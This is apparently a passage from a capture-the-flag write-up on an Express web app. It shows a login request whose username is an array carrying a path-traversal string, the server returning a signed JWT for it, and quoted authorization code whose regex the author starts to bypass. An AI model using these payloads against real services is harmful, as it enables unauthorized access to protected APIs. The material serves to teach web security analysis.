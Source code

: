 ```
POST /api/auth/login HTTP/1.1
Content-Length: 78
authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJ3YXJyZW5idWZmZXR0NjkvLi4vLi4vLi4vaGVhbHRoIyIsIndhcnJlbmJ1ZmZldHQ2OSJdLCJpYXQiOjE2MzU2MTE4ODN9.vrCgjOFTeFlrjaCvfApg_S-YienmzE0F3RsfaFuzDJo
Content-Type: application/json
...
Connection: close

{
	"username":["spritz/../../../health#", "::txId"],
	"password":"campari"
}
```

Response: 
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 181
Connection: close

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJzcHJpdHovLi4vLi4vLi4vaGVhbHRoIyIsIjo6dHhJZCJdLCJpYXQiOjE2MzU3Mjc2OTZ9.j__LeYofEKnK94JA-0kW9-u8ZLlrX7AyQfci4a4Q1Pk"}
```

So we obtain a valid JWT, signed to the supplied user (an array).

## Accessing api/priv/.*

> TL;DR: We can access to `api/priv/` by avoiding the Regex using the full path.

The access to `api/priv/*` is blocked in `authz.js`:

```
function hasPermission(userPermissions, username, permission) {
	return userPermissions.get(username)?.includes(permission) ?? false;
}

...

if (regex.test(req.url) && !hasPermission(userPermissions, username, permission)) {
	return res.status(403).send('forbidden');
}


```

And in `server.js`:
```
app.use(authz({
	userPermissions: new Map(Object.entries({
	warrenbuffett69: [Permissions.VERIFIED],
	})),
	routePermissions: [
		[/^\/+api\/+priv\//i, Permissions.VERIFIED],
	],
}));
```
